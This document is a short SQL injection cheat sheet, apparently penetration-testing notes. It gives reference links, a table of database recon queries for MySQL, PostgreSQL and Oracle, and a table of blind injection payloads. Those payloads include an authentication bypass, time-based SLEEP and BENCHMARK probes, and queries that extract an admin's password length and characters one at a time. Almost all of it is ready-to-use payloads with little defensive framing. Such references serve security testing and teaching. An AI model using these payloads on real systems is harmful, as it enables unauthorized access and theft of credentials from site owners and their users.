 ### SQL Injection

References:
```
https://portswigger.net/web-security/sql-injection
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
https://owasp.org/www-community/attacks/SQL_Injection
https://www.geeksforgeeks.org/introduction-to-dirb-kali-linux/ (dirb details)
```

Tables for Reference:

#### In-Band SQLi

| Operation                     | MySQL Command                                                                 | PostgreSQL Command                                                             | Oracle Command                                                                 |
|------------------------------|-------------------------------------------------------------------------------|--------------------------------------------------------------------------------|--------------------------------------------------------------------------------|
| Check Database Version       | `SELECT @@version;`                                                           | `SELECT version();`                                                            | `SELECT * FROM v$version;`                                                    |
| List All Tables in Schema    | `SELECT table_name FROM information_schema.tables WHERE table_schema=Database();` | `SELECT table_name FROM information_schema.tables WHERE table_schema=Database();` | `SELECT table_name FROM all_tables WHERE owner='SCHEMA_NAME';`               |
| List All Columns in Schema   | `SELECT column_name FROM information_schema.columns WHERE table_schema='schema_name';` | `SELECT column_name FROM information_schema.columns WHERE table_schema='schema_name';` | `SELECT column_name FROM all_tab_columns WHERE owner='SCHEMA_NAME';`         |
| Concat Two Strings           | `CONCAT(string1, string2)`                                                    | `CONCAT(string1, string2)`                                                     | `string1 || string2`                                                          |

#### Blind SQLi

| Blind SQL Injection Code/Payload                                             | Purpose                                    | Type            | Description                                                                                  |
|------------------------------------------------------------------------------|--------------------------------------------|------------------|----------------------------------------------------------------------------------------------|
| `' OR 1=1 --`                                                                | Always true condition to bypass authentication | Boolean         | Forces the query to always evaluate as true, granting access or revealing information.       |
| `' AND 1=2 --`                                                               | Always false condition to test behavior     | Boolean         | Tests how the application behaves when the query evaluates as false.                         |
| `' AND (SELECT LENGTH(database())) = 5 --`                                   | Check the length of the database name       | Boolean         | Infers the length of the database name based on the application's response.                  |
| `' AND ASCII(SUBSTRING((SELECT user()), 1, 1)) > 77 --`                      | Extract a single character from the username | Boolean         | Uses ASCII values and conditional checks to infer individual characters of sensitive data.   |
| `' AND SLEEP(5) --`                                                          | Delay execution to detect vulnerabilities   | Time-Based      | Causes the query to pause for 5 seconds, confirming vulnerability if delay is observed.      |
| `' OR IF(1=1, SLEEP(5), 0) --`                                               | Conditional delay based on true/false       | Time-Based      | Executes delay if condition is true, useful for extracting information bit by bit.           |
| `' AND BENCHMARK(1000000, MD5('test')) --`                                   | Force server to perform computation         | Time-Based      | Measures response time to detect injection points via computational delays.                  |
| `' AND (SELECT COUNT(*) FROM information_schema.tables) > 10 --`            | Check table count in the schema             | Boolean         | Infers number of tables by observing application behavior.                                   |
| `' AND (SELECT table_name FROM information_schema.tables LIMIT 1) = 'users' --` | Check if a specific table exists         | Boolean         | Tests for presence of a specific table in the database.                                      |
| `' AND EXISTS(SELECT * FROM users WHERE username='admin') --`               | Check if a specific record exists           | Boolean         | Infers existence of a user or record.                                                        |
| `' AND 1=IF((SELECT LENGTH(password) FROM users WHERE username='admin') > 8, SLEEP(5), 0) --` | Extract password length         | Time-Based      | Delays execution if condition is true, revealing info bit by bit.                            |
| `' AND (SELECT CASE WHEN (user() LIKE 'root%') THEN SLEEP(5) ELSE 0 END) --` | Check if current user is root               | Time-Based      | Uses conditional delays to confirm user roles/privileges.                                    |
| `' AND (SELECT ASCII(SUBSTRING(password, 1, 1)) FROM users WHERE username='admin') > 77 --` | Extract password character | Boolean         | Extracts character-by-character password data using ASCII checks.                            |
| `' AND (SELECT DATABASE()) = 'test_db' --`                                   | Check current database                      | Boolean         | Confirms current database name.                                                              |